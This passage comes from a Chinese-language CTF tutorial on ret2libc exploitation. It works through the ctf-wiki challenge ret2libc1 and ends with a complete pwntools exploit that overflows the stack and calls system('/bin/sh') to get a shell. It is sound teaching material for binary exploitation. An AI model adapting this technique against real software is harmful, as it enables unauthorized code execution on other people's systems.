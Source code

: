 之后调用时，过程为：plt->got->直接获取函数地址，因为此时got表已经记录函数地址。

### [](https://www.onctf.com/posts/cd763be3.html#%E4%BE%8B%E9%A2%98-3 "例题")例题[](https://www.onctf.com/posts/cd763be3.html#%E4%BE%8B%E9%A2%98-3)

这里以ctf-wiki上面的三道题为例，由浅入深讲解ret2libc的题目该怎么做

### [](https://www.onctf.com/posts/cd763be3.html#ret2libc1 "ret2libc1")ret2libc1[](https://www.onctf.com/posts/cd763be3.html#ret2libc1)

先看看保护

[![](https://www.onctf.com/images/image-20210722094559116.png)](https://www.onctf.com/images/image-20210722094559116.png)

这里发现开启了NX，那么我们在栈中的数据没有执行权限，所以我们需要使用ROP方式进行绕过

[![](https://www.onctf.com/images/image-20210722095115899.png)](https://www.onctf.com/images/image-20210722095115899.png)

这里有栈溢出，我们直接看看偏移

[![](https://www.onctf.com/images/image-20210722095317201.png)](https://www.onctf.com/images/image-20210722095317201.png)

接下里我们要做的是执行系统函数system(“/bin/sh”)，来获取系统的权限

我们的payload构成应该是这样的 ‘a’ * 112 + system_plt + ‘b’ * 4 + bin_sh_addr

这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以’bbbb’ 作为虚假的地址，其后参数对应的参数内容。这个bbbb可以随便填写，写1234也行，表示返回地址。·

我们需要system的plt地址以及字符串/bin/sh的地址

system的plt地址可以用IDA来查看

[![](https://www.onctf.com/images/image-20210722095638796.png)](https://www.onctf.com/images/image-20210722095638796.png)

然后找/bin/sh

[![](https://www.onctf.com/images/image-20210722095716592.png)](https://www.onctf.com/images/image-20210722095716592.png)

[![](https://www.onctf.com/images/image-20210722095742985.png)](https://www.onctf.com/images/image-20210722095742985.png)

现在就可以写exp了

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7|```<br>from pwn import *p = process('./ret2libc1')system_plt_addr = 0x08048460bin_sh_addr = 0x08048720payload = flat(['a' * 112 , system_plt_addr , 0x00000000 , bin_sh_addr])p.sendline(payload)p.interactive()<br>```|

总结一下就是控制程序执行 libc 中的参数，通常是返回到某个函数的 plt 处，或者某个函数的具体位置（函数对应 got 表项的内容），一般情况会选择执行 system(‘/bin/sh’)

第一题同时提供了 system 地址与 /bin/sh 的地址，那么第二题就不会这样简单了
